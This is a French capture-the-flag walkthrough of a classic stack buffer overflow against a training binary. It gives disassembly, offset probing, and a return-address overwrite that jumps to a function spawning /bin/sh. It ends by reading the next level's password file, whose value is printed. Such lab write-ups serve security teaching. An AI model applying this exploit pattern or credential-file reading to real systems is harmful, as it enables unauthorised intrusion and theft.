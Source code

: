 # Level1

On observe un exécutable à la racine : `level1`

```shell
$ ./level1
Hello World

$ python -c 'print "A"*100' | ./level1
Segmentation fault (core dumped)
```

On cherche donc à comprendre ce que fait l'exécutable

```shell
$ gdb level1 -q
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:   push   ebp
   0x08048481 <+1>:   mov    ebp,esp
   0x08048483 <+3>:   and    esp,0xfffffff0
   0x08048486 <+6>:   sub    esp,0x50
   0x08048489 <+9>:   lea    eax,[esp+0x10]
   0x0804848d <+13>:  mov    DWORD PTR [esp],eax
   0x08048490 <+16>:  call   0x8048340 <gets@plt>
   0x08048495 <+21>:  leave
   0x08048496 <+22>:  ret
End of assembler dump.
```

On va utiliser `Cutter` pour avoir une idée plus claire de `level1`

```shell
$ scp -P 4242 -r level1@192.168.56.102:/home/user/level1/level1 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage level1
```

_resultat sauvegardé dans [source.md](source.md)_

On remarque que `undefined auStack80 [76]` représente un buffer qui nous est alloué, on peut essayer de le remplir :

```shell
$ python -c 'print "A"*75' | ./level1

$ python -c 'print "A"*76' | ./level1
Illegal instruction (core dumped)

$ python -c 'print "A"*77' | ./level1
Illegal instruction (core dumped)

$ python -c 'print "A"*78' | ./level1
Segmentation fault (core dumped)
```

- `python -c 'print "A"*75'` est notre taille aloue maximum (75 + 1 = 76 caractères pour le `\n` automatique du print de python)

- De `77` à `80'`, on écrit par dessus l'EBP, de `81` à `84`, par dessus l'EIP

On remarque aussi, grace a `Cutter` qu'il y a une fonction `run` qui fait un appel a `/bin/sh`

```shell
run ();
0x08048444      push    ebp
0x08048445      mov     ebp, esp
0x08048447      sub     esp, 0x18
0x0804844a      mov     eax, dword [stdout]
0x0804844f      mov     edx, eax
0x08048451      mov     eax, str.Good..._Wait_what
0x08048456      mov     dword [stream], edx
0x0804845a      mov     dword [nitems], 0x13
0x08048462      mov     dword [size], 1
0x0804846a      mov     dword [esp], eax
0x0804846d      call    fwrite
0x08048472      mov     dword [esp], str.bin_sh
0x08048479      call    system
0x0804847e      leave
0x0804847f      ret

int main (int argc, char **argv, char **envp);
0x08048480      push    ebp
0x08048481      mov     ebp, esp
0x08048483      and     esp, 0xfffffff0
0x08048486      sub     esp, 0x50
0x08048489      lea     eax, [s]
0x0804848d      mov     dword [esp], eax
0x08048490      call    gets
0x08048495      leave
0x08048496      ret
0x08048497      nop
```

On a une porte d'entré, plus une clef. Plus qu'à les rassembler en remplaçant l'EIP (prochaine instruction) par l'addresse de `run`:

```shell
$ python -c 'print "A"*76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

_Hmm..._

Le programme se ferme avant que l'on ai le temps de faire quoi que ce soit.

Mais grace a `cat`, nous avons un moyen d'empêcher la fermeture de `level1`

```shell
$ (python -c 'print "A"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
Ctrl+D
Segmentation fault (core dumped)
```

`https://beta.hackndo.com/buffer-overflow/`

